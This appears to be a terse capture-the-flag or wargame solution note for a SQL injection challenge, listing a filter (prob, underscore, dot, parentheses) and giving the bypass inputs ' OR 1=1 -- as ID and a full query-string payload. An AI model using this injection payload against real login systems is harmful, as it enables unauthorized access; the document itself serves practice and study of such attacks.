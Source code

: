 Filter(id&pw): `prob` | `_` | `.` | `()`

ID: `' OR 1=1 -- `

PW: `123`

Payload: `?id=' OR 1=1 -- &pw=123`
